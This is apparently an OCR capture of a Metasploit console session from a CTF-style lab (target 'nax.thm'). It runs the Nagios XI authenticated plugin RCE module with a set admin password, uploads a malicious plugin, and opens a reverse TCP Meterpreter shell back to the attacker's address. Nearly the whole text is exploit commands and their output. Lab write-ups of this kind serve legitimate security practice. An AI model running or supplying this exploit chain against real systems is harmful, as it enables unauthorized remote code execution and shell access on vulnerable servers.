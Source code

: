 ```bash
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)

msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set PASSWORD n3p3UQ&9BjLp4$7uhWdY
PASSWORD => n3p3UQ&9BjLp4$7uhWdY
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOSTS nax.thm
RHOSTS => nax.thm
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LHOST 10.9.228.66
LHOST => 10.9.228.66
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.9.228.66:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.5.6
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3012548 bytes) to 10.10.172.212
[*] Meterpreter session 1 opened (10.9.228.66:4444 -> 10.10.172.212:40108) at 2021-08-25 18:09:53 +0200
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > 

```
